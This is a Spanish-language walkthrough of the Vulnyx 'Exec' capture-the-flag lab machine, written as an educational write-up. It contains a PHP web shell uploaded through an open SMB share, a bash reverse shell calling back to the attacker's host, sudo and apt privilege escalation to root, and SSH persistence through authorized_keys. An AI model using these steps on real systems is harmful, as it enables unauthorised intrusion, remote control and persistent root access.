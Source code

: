 ```yaml
---
title: Vulnyx - Exec
author: estx
date: 2024-04025 17:51:00 +0800
categories: [Writeup, Vulnyx, Low]
tags: [Linux, 'SMB', 'File Upload' , 'binary abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Low/Exec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Plex Machine Logo
---
```


Máquina Linux de nivel **Low** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.63	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.63 -oG puertos`**

  ![](/assets/images/Vulnyx/Low/Exec/01-ports.png)

b. Vemos la versiones de los servicios que se están ejecutando

* **`nmap -p22,80,139,445 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Low/Exec/02-versions.png)


c. En el **puerto 80** no hay algo interesante (Solo la página por defecto), por lo que, investigamos todo sobre el servicio **SMB** (Puerto 445)

```bash
# Primero listamos los directorios disponibles
❯ smbclient -L \\192.168.100.63

Password for [WORKGROUP\root]: <ENTER>

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        server          Disk      Developer Directory
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories


# Vemos que el directorio "server" puede ser accedido, por lo que, nos conectamos y listamos los recursos disponibles

❯ smbclient \\\\192.168.100.63\\server

Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 25 17:20:01 2024
  ..                                  D        0  Mon Apr 15 10:04:12 2024
  index.html                          N    10701  Mon Apr 15 10:04:31 2024
```

* Si nos decargamos el archivo **index.html** con el comando `get index.html` nos daremos cuenta que es el archivo por defecto del puerto 80. Intuimos entonces que probablemente los archivos de este directorio se ven reflejados en el servicio HTTP. Intentaremos subir un archivo `.php` para ejecutar comandos.

```bash
❯ cat secret.php

<?php
	system($_GET['cmd']);
?>
```

> La función `system` nos permite ejecutar comandos en el sistema. Con **`$_GET['cmd']`** lo que hacemos es indicar que el comando que se va a ejecutar lo indicaremos desde la **URL**. **Ej.** http://192.168.100.63/secret.php?cmd=<COMANDO>
{: .prompt-info }

* Por último, subimos el archivo **secret.php** al servicio SMB con **`put secret.php`**

d. Ahora con **cURL** podemos ejecutar comando en la máquina víctima

```bash
❯ curl -s -X GET "http://192.168.100.63/secret.php?cmd=hostname"
exec
```

* Ahora nos entablamos un reverse shell 👨‍💻

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```
> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Low/Exec/03-exploit.png)

![](/assets/images/Vulnyx/Low/Exec/04-reverse.png)



### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@exec:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@exec:/var/www/html$ ^Z
[1]  + 25443 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 25443 continued  nc -lvnp 4444
                                     reset xterm


www-data@exec:/var/www/html$ export TERM=xterm-256color
www-data@exec:/var/www/html$ source /etc/skel/.bashrc 
www-data@exec:/var/www/html$
```


2. Miramos los permisos a nivel de sudoers de este usuario

```bash
www-data@exec:/var/www/html$ sudo -l

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

* Vemos que podemos ejecutar una **bash** como el usuario `s3cur4`

```bash
www-data@exec:/var/www/html$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/var/www/html$ whoami
s3cur4
```

3. Ahora vemos los permisos del usuario `s3cur4`

```bash
s3cur4@exec:/var/www/html$ sudo -l

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

* Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#shell) una forma de escalar privilegio ejecutando **apt**

```bash
s3cur4@exec:/var/www/html$ sudo -u root /usr/bin/apt changelog apt
Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
Fetched 505 kB in 2s (241 kB/s)
# Después de ejecutar el comando, se abrirá una pantalla en la cual debemos escribir !/bin/bash
root@exec:/var/www/html# 
```


### Extras 🌟

1. Podemos autenticarnos mediante **SSH** directamente a la máquina víctima:

* Primero, habilitamos el permiso para que **root** pueda autenticarse a través de SSH. Quitamos el **#** y colocamos un **yes**

```bash
root@exec:~# cat /etc/ssh/sshd_config

...
PermitRootLogin yes
...
```

* Ahora, generamos un par de claves RSA en nuestra máquina host

```bash
❯ ssh-keygen

# Asignamos el permiso 600 a la clave id_rsa privada
❯ chmod 600 id_rsa
```

* Copiamos el contenido de la clave id_rsa pública y lo ponemos en un archivo **authorized_keys** en el directorio /root/.ssh

```bash
root@exec:~/.ssh# echo -n 'ssh-ed25519 ... root@kali' > authorized_keys
```


* Finalmente, nos podemos autenticar directamente por ssh como el usuario **root**

```bash
❯ ssh root@192.168.100.63 -i id_rsa
root@exec:~#
```